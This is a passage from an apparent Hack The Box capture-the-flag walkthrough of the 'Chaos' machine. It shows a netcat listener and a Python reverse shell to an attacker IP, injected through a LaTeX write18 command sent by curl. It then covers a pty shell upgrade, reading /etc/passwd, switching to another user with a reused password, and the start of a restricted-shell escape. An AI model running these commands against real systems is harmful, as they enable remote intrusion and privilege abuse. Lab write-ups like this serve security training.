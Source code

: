    ```console
   - Local Terminal #1:
     ```console
     $ nc -lvp 4444
     ```
   - Local Terminal #2:
     ```sh
     $ cmd="python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.12.70\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

     $ curl -d "content=\immediate\write18{$cmd}&template=test1" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php
     ```
   - `netcat` listener:
     ```console
     python -c 'import pty; pty.spawn("/bin/bash")'

     cat /etc/passwd | grep bash
     # root:x:0:0:root:/root:/bin/bash
     # sahay:x:1000:1000:choas:/home/sahay:/bin/bash
     # ayush:x:1001:1001:,,,:/home/ayush:/opt/rbash
     ```
     
   __NOTE(S)__:
   - The user, `ayush`, has a __restricted shell__ (`/opt/rbash`)
     ```console
     $ su ayush

       Password: jiujitsu
     
     $ id

       rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names

     ```
     - `ayush` __reuses__ passwords
>
5. Escape the `rbash`:
   1. Look for usable commands:
      ```console
      $ cd ~

        rbash: cd: restricted

      $ ls -lah

        rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names

      $ echo test
      
        test

      ```
   2. Leverage `echo`:
      ```console
      $ echo ~/*

        /home/ayush/mail 
        /home/ayush/user.txt

      $ echo $PATH

        /home/ayush/.app
   ```